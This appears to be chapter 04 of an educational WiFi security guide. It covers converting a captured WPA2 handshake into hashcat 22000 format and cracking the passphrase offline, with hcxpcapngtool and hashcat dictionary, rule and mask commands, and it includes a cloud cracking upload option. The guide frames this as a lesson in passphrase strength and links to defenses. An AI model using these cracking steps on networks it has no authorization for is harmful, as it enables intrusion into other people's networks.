


# 04 — Conversion & Offline Cracking

> Converting the captured `.pcap` into the hashcat `22000` format and recovering the pre-shared key offline.

[← Previous: Deauth & Capture](03-deauth-and-capture.md) · [Back to README](../README.md) · [Next: Defense →](05-defense-and-mitigations.md)

---

## Objective

A raw `.pcap`/`.cap` capture is not directly crackable. The EAPOL handshake must first be **extracted and encoded** into hashcat's modern **`22000`** hash mode (WPA-PBKDF2-PMKID+EAPOL), which unifies PMKID and handshake cracking into a single format. The hash is then attacked offline.

---

## Method A — REDD's PCAP OHC Uploader (OnlineHashCrack)

[REDD's PCAP OHC Uploader](https://github.com/InfoSecREDD) is a helper utility that submits a capture to the **OnlineHashCrack** service via its API for conversion and cloud-side cracking.



```
REDD's PCAP OHC UPLOADER
( Version 1.3 - WIN )

Enter the Email you want to use for Results: <your-email>
[+] Receiving sniffpmkid_0.pcap with email <your-email>
[+] Checking inputs..
DONE!!
```

**Steps:**
1. Run the uploader and provide a results email address.
2. Point it at the captured `sniffpmkid_0.pcap`.
3. The tool validates the capture and submits it; results are returned by email.

> **Note:** using a third-party service uploads your capture to an external provider. Only ever do this with captures from **your own** network, and review the provider's Terms & Conditions.

---

## Method B — cap2hashcat (hcxpcapngtool)

The [cap2hashcat online converter](https://hashcat.net/cap2hashcat/) runs **`hcxpcapngtool`** server-side to extract the handshake and emit a `.22000` file locally — no cloud cracking involved.



### Conversion Summary

```
hcxpcapngtool 6.3.1 reading from 1111925_1732378313.cap...

Handshake extraction successful: Download
```

| Metric | Value |
|--------|-------|
| File version | pcap/cap 2.4 |
| Packets inside | 2,946 |
| Unique ESSIDs | 19 |
| Beacon frames | 1,655 |
| EAPOL messages (total) | 21 |
| EAPOL RSN messages | 21 |
| EAPOL M1 / M2 / M3 / M4 | 8 / 5 / 5 / 3 |
| EAPOL pairs (total) | 16 |
| EAPOL pairs written to `22000` | **1 (RC checked)** |
| EAPOL M32E2 (authorized) | **1** |
| Link-layer header type | `DLT_IEEE802_11 (105)` |

The key line — **`EAPOL pairs written to 22000 hash file: 1 (RC checked)`** with an **authorized M32E2** pair — confirms a valid, crackable handshake was extracted.

### Local equivalent (CLI)

If running `hcxtools` locally instead of the web converter:

```bash
# Convert a capture to hashcat 22000 format
hcxpcapngtool -o handshake.22000 sniffpmkid_0.pcap
```

---

## Offline Cracking with hashcat

With the `.22000` file in hand, the pre-shared key is recovered offline using **hashcat mode 22000**.

```bash
# Dictionary attack
hashcat -m 22000 handshake.22000 wordlist.txt

# Dictionary + rules
hashcat -m 22000 handshake.22000 rockyou.txt -r rules/best64.rule

# Mask / brute-force (example: 8-digit numeric key)
hashcat -m 22000 handshake.22000 -a 3 ?d?d?d?d?d?d?d?d
```

| Parameter | Meaning |
|-----------|---------|
| `-m 22000` | WPA-PBKDF2-PMKID+EAPOL hash mode |
| `-a 0` | Straight (dictionary) attack (default) |
| `-a 3` | Brute-force / mask attack |
| `-r` | Apply a rule file for word mangling |

### Interpreting the Outcome

- **Key recovered quickly** → the passphrase was weak (dictionary word, short, or predictable). This is the core lesson: WPA2 security is only as strong as the passphrase entropy.
- **Key not recovered** → a long, high-entropy passphrase makes offline brute-force computationally infeasible — exactly the defensive posture recommended in the next section.

➡️ Continue to [**05 — Defense & Mitigations**](05-defense-and-mitigations.md).
